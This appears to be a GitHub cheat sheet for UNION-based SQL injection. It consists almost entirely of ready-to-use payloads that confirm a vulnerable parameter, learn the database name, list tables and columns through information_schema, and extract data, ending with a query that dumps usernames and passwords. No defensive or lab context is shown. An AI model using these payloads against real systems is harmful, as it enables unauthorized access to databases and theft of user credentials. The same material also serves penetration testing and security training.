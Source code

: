 `UNION Injection`

`To find if SQLi Vulnarablity is Present`
```
0 UNION ALL SELECT 1,2,3,...; #               (Do This until you get a 200 service Result)
```
OR
```
' and 0=1 union select 1,2,3#
```
___
`To Find The Database Name`
```
0 UNION SELECT 1,2,...,database(); #
```
___
`Our next query will gather a list of tables that are in this database`
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'DATABASE NAME'; #
```
___
`To find the 1st Column Name`
```
0 UNION ALL SELECT column_name,null,null,null,null... FROM information_schema.columns WHERE table_name="Give the Table Name here"; #
```
___
`To find all Column Names`
```
0 UNION ALL SELECT group_concat(column_name),null,null,null,null... FROM information_schema.columns WHERE table_name="Give the table name here"; #
```
___
`To Extract Data from SQL Database`
```
0 UNION ALL SELECT (Column name),null,null,null,null FROM (table name) WHERE (condition comes here if any, else skip WHERE); #
```
OR
```
0 UNION SELECT 1,2,...,group_concat(username,':',password SEPARATOR '<br>') FROM TABLENAME; #
```
___
